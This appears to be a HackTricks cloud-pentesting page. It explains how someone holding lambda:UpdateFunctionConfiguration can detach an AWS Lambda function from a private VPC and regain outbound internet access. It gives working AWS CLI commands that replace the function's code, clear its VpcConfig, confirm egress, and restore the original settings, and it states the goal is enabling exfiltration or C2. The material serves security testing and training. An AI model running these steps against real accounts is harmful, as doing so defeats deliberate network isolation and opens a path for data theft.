# AWS Lambda – VPC Egress Bypass by Detaching VpcConfig

{{#include ../../../../banners/hacktricks-training.md}}

Force a Lambda function out of a restricted VPC by updating its configuration with an empty VpcConfig (SubnetIds=[], SecurityGroupIds=[]). The function will then run in the Lambda-managed networking plane, regaining outbound internet access and bypassing egress controls enforced by private VPC subnets without NAT.

## Abusing it

- Pre-reqs: lambda:UpdateFunctionConfiguration on the target function (and lambda:InvokeFunction to validate), plus permissions to update code/handler if changing them.
- Assumptions: The function is currently configured with VpcConfig pointing to private subnets without NAT (so outbound internet is blocked).
- Region: us-east-1

### Steps

0) Prepare a minimal handler that proves outbound HTTP works

    cat > net.py <<'PY'
    import urllib.request, json
    
    def lambda_handler(event, context):
        try:
            ip = urllib.request.urlopen('https://checkip.amazonaws.com', timeout=3).read().decode().strip()
            return {"egress": True, "ip": ip}
        except Exception as e:
            return {"egress": False, "err": str(e)}
    PY
    zip net.zip net.py
    aws lambda update-function-code --function-name $TARGET_FN --zip-file fileb://net.zip --region $REGION || true
    aws lambda update-function-configuration --function-name $TARGET_FN --handler net.lambda_handler --region $REGION || true

1) Record current VPC config (to restore later if needed)

    aws lambda get-function-configuration --function-name $TARGET_FN --query 'VpcConfig' --region $REGION > /tmp/orig-vpc.json
    cat /tmp/orig-vpc.json

2) Detach the VPC by setting empty lists

    aws lambda update-function-configuration \
      --function-name $TARGET_FN \
      --vpc-config SubnetIds=[],SecurityGroupIds=[] \
      --region $REGION
    until [ "$(aws lambda get-function-configuration --function-name $TARGET_FN --query LastUpdateStatus --output text --region $REGION)" = "Successful" ]; do sleep 2; done

3) Invoke and verify outbound access

    aws lambda invoke --function-name $TARGET_FN /tmp/net-out.json --region $REGION >/dev/null
    cat /tmp/net-out.json

(Optional) Restore original VPC config

    if jq -e '.SubnetIds | length > 0' /tmp/orig-vpc.json >/dev/null; then
      SUBS=$(jq -r '.SubnetIds | join(",")' /tmp/orig-vpc.json); SGS=$(jq -r '.SecurityGroupIds | join(",")' /tmp/orig-vpc.json)
      aws lambda update-function-configuration --function-name $TARGET_FN --vpc-config SubnetIds=[$SUBS],SecurityGroupIds=[$SGS] --region $REGION
    fi

### Impact
- Regains unrestricted outbound internet from the function, enabling data exfiltration or C2 from workloads that were intentionally isolated in private subnets without NAT.

### Example output (after detaching VpcConfig)

    {"egress": true, "ip": "34.x.x.x"}

### Cleanup
- If you created any temporary code/handler changes, restore them.
- Optionally restore the original VpcConfig saved in /tmp/orig-vpc.json as shown above.
{{#include ../../../../banners/hacktricks-training.md}}
